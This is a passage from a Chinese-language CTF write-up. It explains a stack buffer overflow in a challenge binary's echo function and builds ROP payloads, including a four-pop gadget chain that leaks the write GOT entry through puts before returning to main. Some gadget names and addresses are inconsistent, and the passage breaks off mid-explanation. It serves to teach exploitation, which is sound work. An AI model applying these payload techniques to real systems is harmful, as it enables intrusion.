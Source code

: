 假如我们在buf中输入的0x400个a字符，那么栈变成这样了

```
aaaaaaaa
aaaaaaaa	0x10字节数据区
aaaaaaaa	echo函数栈的ebp
aaaaaaaa	echo函数返回地址
aaaaaaaa
aaaaaaaa
aaaaaaaa
aaaaaaaa
aaaaaaaa
........	0x400字节数据区
main函数栈的ebp
```
因为没有在中途遇到0，所以echo中的循环一直复制buf中的数据到s2中，造成溢出。现在，假如我们的payload = 'a'*0x18+ p64(pop_rdi) + p64(binsh_addr) + p64(system_addr)

那么，栈中的数据变成这样:

```
aaaaaaaa        
aaaaaaaa	0x10字节数据区
aaaaaaaa	echo函数栈的ebp
pop_rdi_addr	echo函数返回地址
aaaaaaaa
aaaaaaaa
aaaaaaaa	
pop_rdi_addr
Binsh_addr
system_addr	0x400字节数据区
main函数栈的ebp
```
这样的话，echo执行完后，跳到pop_rdi地址处执行，然而，pop_rdi执行完后，栈顶指针esp指向buf+0x8 ，即aaaaaaaa，这里不是地址，因此程序崩溃结束。

然而，如果，我们在buf+0x8处存储其他函数地址，也是不可行的，因为该地址是64位，末尾几位有0，这会导致我们还没溢出s2就已停止数据复制


因此，我们有以下总结:

buf的前24字节不能存地址数据，只存普通数据。
buf+24处应该存某一地址，且该地址处有四个pop指令，和一个retn指令。这样，
四次pop后，就相当于跳过了24字节数据和自己本身8字节地址数据。
在接下来的地址处，我们就可以写其他函数。

在0x40089C处正好有四个pop和一个retn:
```
0x000000000040089b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
```

假如我们的payload = 'a'*0x18 + p64(pop_32) + p64(pop_rdi) + p64(write_got) + p64(puts_plt) + p64(main_addr)

那么栈布局如下:
```
aaaaaaaa
aaaaaaaa	0x10字节数据区
aaaaaaaa	echo函数栈的ebp
pop_32_addr(rop)echo函数返回地址		-------------------------------跳转到pop_rdi
aaaaaaaa	pop r12					| 等                                    
aaaaaaaa	pop r13	   				| 价                                                 
aaaaaaaa	pop r14					| 于                                    
pop_32_addr	pop r15 ; ret				|<==>                       
pop_rdi	   《------------------------------------------------------跳转
write_got	//rdi=write_got
puts_plt	//put(write_got)
main_addr	0x400字节数据区
main函数栈的ebp
```
那么，echo函数执行完以后，跳到pop_24地址处，由于跳转后，栈顶指针指向buf，出栈4个后，指针指向buf+32 ，
